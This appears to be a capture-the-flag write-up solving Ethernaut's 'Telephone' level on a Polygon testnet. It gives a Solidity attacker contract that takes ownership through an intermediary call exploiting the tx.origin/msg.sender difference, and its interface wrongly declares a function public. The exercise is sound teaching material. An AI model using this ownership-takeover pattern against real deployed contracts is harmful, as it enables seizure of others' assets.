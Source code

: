 # Telephone

## Level 4

https://ethernaut.openzeppelin.com/level/0x131c3249e115491E83De375171767Af07906eA36

## Solution:

Network: ploygon matic

instance: 0x7571eeebd96ac74ee9da5b0de9a1a3152da7632f

tx: https://mumbai.polygonscan.com/tx/0xbc10e31eef9f5093fa9d18691fdb628a1ce347ec18d65fb614ec76b638dd2113

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) public;
}

contract TelephoneCaller {

  function changeTelephoneOwner( address telephone) public {
    ITelephone(telephone).changeOwner(msg.sender);
  }
}

```

## Steps:

tx.origin is initiater of the transaction. msg.sender is the one that called the contract function.
For both of these to be different the contract instance needs to be called via a contract.

> deploy above contract
> <TelephoneCaller>.changeTelephoneOwner(instance);
